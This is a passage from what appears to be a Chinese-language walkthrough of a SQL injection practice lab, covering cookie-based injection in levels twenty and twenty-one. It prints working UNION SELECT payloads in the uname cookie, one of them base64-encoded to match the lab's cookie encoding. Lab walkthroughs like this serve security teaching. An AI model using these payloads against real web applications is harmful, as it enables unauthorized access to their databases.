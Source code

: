 ![18](/img/2018-08-03/18.png)
查数据库
```
Cookie: uname=admin' union select 1,2,database() limit 1,1#
```
![19](/img/2018-08-03/19.png)
后面的一样了
<div style="text-align: center">-------------------------2018-08-10更新-------------------------
</div>

##### 第二十一关
用`admin`，`admin`登陆后抓包看到cooie
```
Cookie: uname=YWRtaW4%3D
```
url解码后`YWRtaW4=`，用base64尝试解码得到`admin`，那么cookie应该就是用了base64加密过的，和第二十关一样，多了base64加密，
```
Cookie: uname=YWRtaW4nKSB1bmlvbiBzZWxlY3QgMSwyLGRhdGFiYXNlKCkgbGltaXQgMSwxIw%3D%3D
```
